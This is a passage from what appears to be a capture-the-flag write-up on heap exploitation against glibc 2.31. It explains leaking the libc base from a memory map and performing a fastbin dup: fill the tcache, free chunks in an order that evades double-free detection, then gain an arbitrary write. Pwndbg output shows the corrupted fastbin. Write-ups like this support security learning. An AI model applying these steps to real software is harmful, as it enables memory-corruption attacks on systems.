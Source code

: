 ```
7fad5509e000-7fad5509f000 rw-p 00000000 00:00 0 
7fffb8320000-7fffb8341000 rw-p 00000000 00:00 0                          [stack]
7fffb83a2000-7fffb83a6000 r--p 00000000 00:00 0                          [vvar]
7fffb83a6000-7fffb83a8000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]

```

The first line that links to `libc-2.31.so` is the one leaking the base address (in previous snippet `7fae1add9000`).

## Fastbin dup technique

In order to perform the fastbin dup, we have to fill the tcache first. Luckily, only `calloc` is available for chunk allocation, giving us ability to fill the tcache and only operate on the chunks from the fastbins.

When the tcache is filled, we allocate at least two new chunks and free them in the appropriate order to prevent libc from detecting our double free:
```
free(first)
free(second)
free(first)
```

By allocating new chunks (creating a new secret) we will be able to write into the fastbin and thus obtain an arbitrary write to an address of our choice.

This is the state before allocating a new chunk:
```
pwndbg> tcache
{
  counts = {0, 0, 0, 0, 0, 7, 0 <repeats 58 times>},
  entries = {0x0, 0x0, 0x0, 0x0, 0x0, 0x564448cfb5b0, 0x0 <repeats 58 times>}
}
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x564448cfb610 —▸ 0x564448cfb680 ◂— 0x564448cfb610
0x80: 0x0
```

This is the state after allocating a new chunk (`0x564448cfb610`) and writing data into it:
```
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x564448cfb680 —▸ 0x564448cfb610 ◂— 'AAAAAAAAAAAAAAAAAAAAAA\n'
0x80: 0x0
```
